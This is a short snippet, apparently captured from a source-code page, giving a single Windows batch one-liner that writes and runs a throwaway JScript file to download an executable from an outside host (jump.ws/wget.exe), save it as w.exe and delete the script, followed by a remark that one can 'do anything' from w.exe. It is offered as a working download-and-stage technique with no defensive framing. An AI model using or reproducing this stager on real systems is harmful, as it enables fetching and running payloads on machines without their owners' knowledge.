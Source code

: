 
set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% https://jump.ws/wget.exe w.exe && del %f% /f /q && dir w.exe

Yup, u now can do anything start from w.exe
